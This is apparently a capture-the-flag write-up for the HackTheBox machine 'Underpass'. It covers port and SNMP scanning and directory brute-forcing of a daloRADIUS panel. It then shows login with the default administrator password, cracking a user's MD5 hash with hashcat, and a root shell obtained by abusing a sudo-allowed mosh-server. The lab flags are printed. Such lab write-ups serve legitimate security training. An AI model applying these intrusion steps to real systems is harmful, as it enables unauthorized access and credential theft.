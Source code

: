 ```yaml
---
title: "Underpass"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Underpass

![](../assets/Pasted%20image%2020250505131450.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.48 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 13:15 CEST
Nmap scan report for 10.10.11.48
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   40.70 ms 10.10.14.1
2   40.98 ms 10.10.11.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.47 seconds
```

```shell
$ sudo nmap -sU --top-ports 50 -Pn 10.10.11.48 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 13:15 CEST
Nmap scan report for 10.10.11.48
Host is up (0.041s latency).
Not shown: 30 open|filtered udp ports (no-response), 19 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 15.97 seconds
```

Enumerating `snmp` we find the instance name running on the server

```shell
$ snmpwalk -c public -v1 -t 10 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (31611) 0:05:16.11
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (2) 0:00:00.02
```

Using `feroxbuster` to discover paths inside `/daloradius`

```shell
$ feroxbuster -u http://10.10.11.48/daloradius -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 60 -x txt -x html -x php -x conf -C 302,301,403,404,400 -k
                                                                                                       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.48/daloradius
 🚀  Threads               │ 60
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 💢  Status Code Filters   │ [302, 301, 403, 404, 400]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, html, php, conf]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4

[>-------------------] - 2m     26395/6369090 202/s   http://10.10.11.48/daloradius/app/users/ 
[>-------------------] - 43s     3625/6369090 85/s    http://10.10.11.48/daloradius/app/operators/
```

Going to `/users` shows the user login and `/operators` the admin login panel

![](../assets/Pasted%20image%2020250505154754.png)

The official repo ([https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS)) install instructions indicate the default password: `administrator:radius` so

![](../assets/Pasted%20image%2020250505154857.png)

Inside, in the search bar at the top right, click to search all users

![](../assets/Pasted%20image%2020250505154955.png)

Using `hashcat` crack the MD5 password

```shell
$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force     
hashcat (v6.2.6) starting

412dd4759978acfcc81deab01b382403:underwaterfriends
```

So `svcmosh:underwaterfriends`

Access the machine via `SSH` with these new credentials

```shell
$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ whoami
svcMosh
```

## Privilege Escalation

Get the flag

```shell
svcMosh@underpass:~$ cat user.txt
ebb6347ca59834b16b35e1c7b24c9447
```

This user can execute `mosh-server` as sudo, so create a server and connect to it with `mosh-client`

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

```shell
svcMosh@underpass:~$ sudo /usr/bin/mosh-server 

MOSH CONNECT 60002 fNKglQ/C1dr9J3+wOb7TTQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2641]

svcMosh@underpass:~$ MOSH_KEY=fNKglQ/C1dr9J3+wOb7TTQ mosh-client 127.0.0.1 60002
```

```shell
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

...
Mosh: You have a detached Mosh session on this server (mosh [2631]).
...

root@underpass:~# whoami
root
```

## Post Exploitation

Get the flag

```shell
root@underpass:~# cd /root
root@underpass:~# cat root.txt
a883be264024dedc4faa1ff74f9c1c07
```
